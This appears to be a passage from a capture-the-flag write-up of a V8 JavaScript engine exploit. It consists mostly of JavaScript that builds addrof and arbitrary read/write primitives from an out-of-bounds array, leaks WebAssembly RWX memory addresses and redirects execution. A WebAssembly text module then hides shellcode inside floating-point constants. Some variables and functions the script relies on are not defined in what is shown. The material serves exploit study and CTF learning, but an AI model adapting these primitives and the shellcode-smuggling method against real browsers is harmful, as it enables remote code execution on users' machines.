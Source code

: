 ```js
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var fil = wasm_instance.exports.fillArray;
var creArray = wasm_instance.exports.createArray;

let a = creArray();
let oob = [1.1, 2.2, 3.3, 4.4];
let oob_helper = [69.69, 2.2, 3.3, 4.4];
let addr_helper = [{}, {}]
fil(a)

let offset = 0x20126 + -21;

function addrof(obj){
  addr_helper[0] = obj;
  return ftoi(oob[offset + 5]) % 0x100000000n;
}

function arb_read(addr){
  oob[offset] = itof(0x1000000000n + addr - 0x8n);
  return ftoi(oob_helper[0]);
}

function arb_write(addr, val){
  oob[offset] = itof(0x1000000000n + addr - 0x8n);
  oob_helper[0] = itof(val);
}

let addr_wasm_instance = addrof(wasm_instance1);
let trusted = arb_read(addr_wasm_instance + 12n);
let rwx = arb_read(trusted + 40n);

console.log("Trusted: " + hex(trusted));
console.log("RWX: " + hex(rwx));

let addr_wasm_instance1 = addrof(wasm_instance_helper);
let trusted1 = arb_read(addr_wasm_instance1 + 12n);
let rwx1 = arb_read(trusted1 + 40n);

console.log("Helper Trusted: " + hex(trusted1));
console.log("Helper RWX: " + hex(rwx1));

f1()
arb_write((trusted1 + 40n), (rwx + 0x95bn));
f2()
```

For the shellcode smuggling part the wat file looked something like this, (Try to figure this out on your own by reading this : [blog](https://tourpran.github.io/posts/v8-ArrayShift-Race-Condition.html))
```
(module
  (func (export "main") (result f64)
    f64.const 1.240196197799028e-308
    drop
    f64.const 1.1355999090986213e-303
    drop
    f64.const 7.442053784779479e-299
    drop
    f64.const 4.877365030478589e-294
    drop
    f64.const 3.1962457295249554e-289
    drop
    f64.const 2.0948120893270098e-284
```
